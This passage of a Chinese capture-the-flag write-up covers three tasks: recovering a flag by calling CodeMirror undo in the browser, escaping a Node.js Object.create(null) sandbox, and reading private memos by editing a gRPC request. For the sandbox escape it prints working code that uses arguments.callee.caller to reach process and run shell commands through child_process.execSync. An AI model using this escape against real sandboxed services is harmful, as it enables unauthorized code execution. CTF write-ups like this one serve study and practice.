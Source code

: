 一阶段提示确实有用，堆快照确实能提升注意力，因为可以快速看特定字符串在哪些对象被引用，特别是哪些对象可以被window一级一级访问到，最终定位到了一个叫CodeMirror的object。

然后发出灵魂之问：说到底，这前端的代码编辑器，到底是怎么实现Ctrl+Z的呢？

于是进行一些简单谷歌之后，写出了这段代码：

```js
var cm = document.querySelector('.CodeMirror').CodeMirror; 
for(i=0;i<20;i++){
    cm.undo(); 
    if(localStorage.WebPPLEditorState.indexOf('fl'+'ag{')!=-1){
        break;
    }
} 
document.title = document.querySelector('.CodeMirror').innerText;
```
然后把它塞进之前的eval里就好了。

#### flag2 nodejs
后端看题面是要我们RCE，但是环境里没有require，即使用刚才的constructor逃出去也没有。

看来是沙箱里全局变量都被清了，我在调研时搜到一个`Object.create(null)`沙箱的[逃逸方法](https://xz.aliyun.com/t/15159?time__1311=GqjxuQD%3DqCqxlxGgx%2BhxmODREinG8Y%2BbfeD#toc-3)，让外部环境下调用一个内部定义的toString函数，通过`arguments.callee.caller`获得外部对象，试了试竟然有用：

```js
return (()=>{
    const a = {}; 
    a.toString = function() { 
        const cc=arguments.callee.caller.constructor.constructor('return process')(); 
        return cc.mainModule.require('child_process').
            execSync('/getflag || id').toString() 
    }; 
    return a; 
    })();
```

这里还有个很神秘的细节，就是`execSync`只有在执行的程序返回值为0时才会返回内容，而`getflag`恰好不是返回0的（我猜返回值是puts的返回值，应该是flag的长度），所以要想个办法让它返回0。

### ICS笑传之查查表（P2 flag）
这个网站是一个go语言搭建的微博站，大量HTTP2/gRPC导致抓包体验很差，再加上我不会go，源码基本读不太懂，也不知道怎么写python模拟gRPC请求，所以一直就拖着了。

最后一天上线看看，之前就有点在意了，F12里，`ListMemos`这个gRPC里的`["PUBLIC", "PROTECTED"]`，我改成`PRIVATE`会怎么样？也不用什么工具了，就F12里右键编辑并重新发送就行。

结果flag就这么回来了？？？啊？？？（甚至没用上提示）所以我为什么P1的时候没有多去试试呢

![](./copy/hacker.jpg)
